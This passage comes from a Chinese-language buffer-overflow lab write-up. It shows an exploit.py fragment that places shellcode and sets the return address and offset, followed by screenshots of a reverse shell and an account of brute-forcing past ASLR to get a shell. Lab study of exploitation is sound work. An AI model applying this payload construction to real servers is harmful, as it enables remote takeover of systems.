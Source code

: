 ![](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012243106.jpg)

`exploit.py`：

```python
##################################################################
# Put the shellcode somewhere in the payload
start = 517-len(shellcode)               # Change this number
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret = 0x00007fffffffe5f0+1200     # Change this number（至少+1016，可以随意选择一个比较大的数，反正有很多NOP）
offset = 0x68              # Change this number 0xe8-0x80=0x68

content[offset:offset + 8] = (ret).to_bytes(8, byteorder='little')
##################################################################
```

本地测试截图：

<img src="https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012243493.png" alt="image-20220310145634176" style="zoom:80%;" />

reverse shell：

<img src="https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012243030.png" alt="image-20220310145734977" style="zoom:80%;" />



##  Task 6: Experimenting with the Address Randomization

> Please send a hello message to the Level 1 and Level 3 servers, and do it multiple times. In your report, please report your observation, and explain why ASLR makes the buffer-overflflow attack more diffificult.

Send hello to the Level 1 server：

<img src="https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012243842.png" alt="image-20220310145929609" style="zoom:80%;" />

Send hello to the Level 3 server：

<img src="https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012243854.png" alt="image-20220310150031828" style="zoom:80%;" />

可以发现buffer和ebp的地址每次运行都发生了改变。

由于开启了地址随机化，所以栈中的地址每次运行都会发生改变，增加了攻击者计算出目的地址的难度，防止攻击者直接定位攻击代码位置，从而使得栈溢出攻击更加困难。

执行暴力破解的脚本，13280次之后爆破成功，获得shell：

```python
./exploit_task2.py 
./brute-force.sh 
```

![image-20220310153615715](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012243741.png)
